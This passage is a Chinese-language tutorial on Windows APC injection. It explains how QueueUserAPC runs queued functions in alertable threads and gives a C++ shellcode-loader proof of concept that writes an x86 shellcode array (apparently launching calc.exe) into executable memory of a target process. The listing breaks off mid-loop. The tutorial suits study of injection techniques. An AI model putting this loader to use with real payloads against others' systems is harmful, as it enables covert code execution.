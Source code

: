 ## APC Inject
### 原理
[APC](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)，全名 Asynchronous Procedure Call，是用來做非同步處理的。每個 Thread 都有一個 APC Queue，當目前這個 Thread 進入 Alertable 狀態時，會呼叫 APC Queue 中的每個 APC Function。Thread 可以透過呼叫 [SleepEx](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex)、 [SignalObjectAndWait](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait)、[MsgWaitForMultipleObjectsEx](https://docs.microsoft.com/en-us/windows/desktop/api/Winuser/nf-winuser-msgwaitformultipleobjectsex)、[WaitForMultipleObjectsEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex)、[WaitForSingleObjectEx](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex) 之類的等待函數進入 Alertable 狀態。

程式中可以透過 [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) 把 APC 排進目標 Thread 的 APC Queue，其中第一個參數可以設定它的 APC Function，第二個參數可以設定目標 Thread。

### 利用
既然我們知道 Thread 進入 Alertable 狀態時會執行 APC Function，那就可以在目標 Thread 排進一個 APC，設定它的 APC Function 為我們的 Shellcode。如此一來，當目標 Thread 進入 Alertable 狀態時就會執行 Shellcode。

### 實作步驟
1. 取得目標 Process ID，因為是 x86 Shellcode，所以要找 32-bit Process，這邊用當前的 Process 代替
2. 開啟目標 Process，申請一塊記憶體後把 Shellcode 寫入目標 Process
3. 建立 Process、Thread 快照，迴圈跑過所有 Thread，列舉所有在目標 Process 中的 Thread ID
4. 迴圈跑過所有目標 Process 中的 Thread，呼叫 QueueUserAPC 並把 APC Function 設為我們的 Shellcode
5. 呼叫 Sleep 讓當前的 Thread 進入 Alertable 狀態

### POC
程式專案可以參考我的 GitHub [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/Shellcode%E8%88%87%E4%BB%96%E7%9A%84%E5%BF%AB%E6%A8%82%E5%A4%A5%E4%BC%B4/ShellcodeLoaderAPC)
```cpp=
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

int main()
{
    char shellcode[] = "\x50\x53\x51\x52\x56\x57\x55\x55\x89\xE5\x83\xEC\x18\x31\xF6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6E\x45\x89\x65\xFC\x64\x8B\x1D\x30\x00\x00\x00\x8B\x5B\x0C\x8B\x5B\x14\x8B\x1B\x8B\x1B\x8B\x5B\x10\x89\x5D\xF8\x8B\x43\x3C\x01\xD8\x8B\x40\x78\x01\xD8\x8B\x48\x24\x01\xD9\x89\x4D\xF4\x8B\x78\x20\x01\xDF\x89\x7D\xF0\x8B\x50\x1C\x01\xDA\x89\x55\xEC\x8B\x50\x14\x31\xC0\x8B\x7D\xF0\x8B\x75\xFC\x31\xC9\xFC\x8B\x3C\x87\x01\xDF\x66\x83\xC1\x08\xF3\xA6\x74\x0A\x40\x39\xD0\x72\xE5\x83\xC4\x26\xEB\x3F\x8B\x4D\xF4\x8B\x55\xEC\x66\x8B\x04\x41\x8B\x04\x82\x01\xD8\x31\xD2\x52\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x89\xE6\x6A\x0A\x56\xFF\xD0\x83\xC4\x46\x5D\x5F\x5E\x5A\x59\x5B\x58\xC3";

    // 1. 取得目標 Process ID，因為是 x86 Shellcode，所以要找 32-bit Process，這邊用當前的 Process 代替
    DWORD pid = GetCurrentProcessId();

    // 2. 開啟目標 Process，申請一塊記憶體後把 Shellcode 寫入目標 Process
    HANDLE victimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, pid);
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(victimProcess, shellAddress, shellcode, sizeof(shellcode), NULL);

    // 3. 建立 Process、Thread 快照，迴圈跑過所有 Thread，列舉所有在目標 Process 中的 Thread ID
    THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
    std::vector<DWORD> threadIds;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
    if (Thread32First(snapshot, &threadEntry))
    {
```